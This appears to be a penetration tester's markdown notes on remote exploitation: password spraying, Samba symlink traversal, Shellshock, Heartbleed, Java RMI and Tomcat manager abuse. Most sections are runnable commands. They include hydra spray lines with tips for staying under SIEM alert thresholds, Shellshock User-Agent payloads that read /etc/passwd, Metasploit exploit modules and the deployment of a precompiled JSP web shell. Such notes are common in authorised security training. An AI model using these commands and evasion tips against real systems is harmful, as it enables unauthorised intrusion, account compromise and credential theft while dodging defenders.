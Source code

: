 > Exploit the target from a remote attacker via its provided services.

## Password spray attack

> An attempt to guess a password without triggering a lockout of an account.
> The idea behind it: Taking a default password of the company and shoot it against all known accounts (so none gets locked out and maybe there is one or more successfull logins)
> Password:Account --> 1:N

Prerequisites:
- enumerated and valid user accounts
	- enumeration should be done beforehand
	- it may help to get the naming convention of the company: `john.doe` or `johndoe` or `jdoe` to be able to validate even more existing useraccounts

### Enumeration of Usernames

> Verify usernames exists -> requires list of possible usernames and possibly the knowledge of the naming convention

- [source_for_wordlist](https://github.com/insidetrust/statistically-likely-usernames)

Verification should happen via exposed interfaces of services.

#### SMTP / Samba

```bash
cat /usr/share/metasploit-framework/data/wordlists/unix_users.txt  # userlist
```

For the Services check:
- [[Linux Exploitation/Information Gathering#1. Enumeration of E-Mail users]] 
- [[Linux Exploitation/Information Gathering#3. Enumeration of username]]

### Common Passwords

> The usage of possible patterns of common passwords (careful for context!)
> Given the *year* or *companyname* we can assume some commonly used passwords for our attack

Candidates
- Password01, Password02
- Summer2018, Fall2018 `Season{Year}`
- FooCorp01, FooCorp02

**IMPORTANT** *IF* password complexity policy is enforced, minor changes in the password suffice to please the policy (change Season/Month of the password)

### Summary & Attack

1. Create possible list of users: statistically list for usernames, or possible names from other sources of the company website
2. Confirm valid users through `smtp`, `nfs` or other means
3. Create the userlist and *max* 1-2 password candidates
4. Identify services that we can check the username:password combination against

```bash
hydra -L ./users.txt -P ./pwlist.txt 10.10.10.20 smb # login attempts against smb service

# after found password, try login against multiple servers
hydra -l mike -p Passw0rd01 -M ssh_server_list.txt ssh
```

Other services with metasploit module to exploit:
- smb: `smb_login`
- owa: `owa_login`

**CAUTION:** Avoid empty password login attempts (may be done per default by the used tools), also only a maxium of 2 passwords or the SIEM will alert. If using more passwords: wait 30-45+ minutes before attempting again to avoid detection and lockout of accounts.

## Service Exploitation

> Specific exploits for different Services

### Samba

#### 1. Check Version

For the enumeration check [[Linux Exploitation/Information Gathering#Samba]]

#### 2. Search for vulnerabilities

```bash
searchsploit samba <version>  # 3.0.20

msf> search type:exploit samba
```

-> Take your pick for the exploit, you may also check the configuration of samba (needs local system access) or the permissions of the shares in order to determine a possible exploitation.

#### Samba Symlink Directory Traversal

> In short set a symlink to `/` (root) on a share where you have `r/w` permissions. Requires the `widelinks` option in the config set to `yes` - can only be verified if the exploit works

```bash
msf> use auxiliary/admin/smb/samba_symlink_traversal # fire 

# connect to created symlink and browse root
smbclient \\\\<targetIP>\\tmp -N
```

### Shellshock (may be behind any other service)

> has been in the wild and exploited via custom `User-Agent` payload, that was processed on the remote server...

#### 1. Check for cgi files or other pages that might use the shell in the background on the server

```bash
# check for cgi files on the target
gobuster dir -u http://<targetIP>/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi
```

If applications are unraveled, check them individually.

#### 2. Identify a vulnerability

```bash
# with nmap
nmap --script http-shellshock --script-args uri=/cgi-bin/tools.cgi <targetIP> -p 80

# or curl (taken from hacktricks)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://<targetIP>/cgi-bin/<application>.cgi
```

#### 3. Exploit

```bash
# using metasploit
msf> use exploit/multi/http/apache_mod_cgi_bash_env_exec

# or manually
wget -U "()) { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://<targetIP>/cgi-bin/tools.cgi && cat login.cgi
```

### Heartbleed (SSL)

#### 1. Check if system is vulnerable

```bash
nmap --script ssl-heartbleed <targetIP>
```

#### 2. Dump encrypted memory contents

```bash
msf> use auxiliary/scanner/ssl/openssl_heartbleed
msf> show actions # change to dump or whatever you like
# Check loot folder after it's done
```

-> If nothing useful is leaked, try again as the adjacent memory may contain different content at different times.

### Java RMI Registry

#### 1. Check if the system has the Java RMI Registry running

```bash
nmap -sT <targetIP> -p 1099 -sV # 1099 being the typical port for Java RMI Registry
msf> use auxiliary/scanner/misc/java_rmi_server
```

Default port may be filtered/blocked - if `rpcbind` is used an alternative port may be listed there.

#### 2. Exploit the vuln 

```bash
msf> use exploit/multi/misc/java_rmi_server
msf> set ssl=true # requires SSL cert, may avoid detection
```

### Java deserialization

- [source](https://zonksec.com/blog/hands-on-with-weblogic-serialization-vulnerability/)

### Exploiting Tomcat

Check default credentials for "Tomcat Manager" admin interface reached through a link on port `8180' (tcp) 

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
msf> show options
```

-> If access is granted, we can upload our own java apps and also a shell

```bash
ls /usr/share/laudanum/jsp # check cmd.war -> precompiled shell
# deploy on the server
```

If successfully deployed browser and use the shell `http://<targetIP>:8180/cmd/cmd.jsp` (check the path when deploying the app).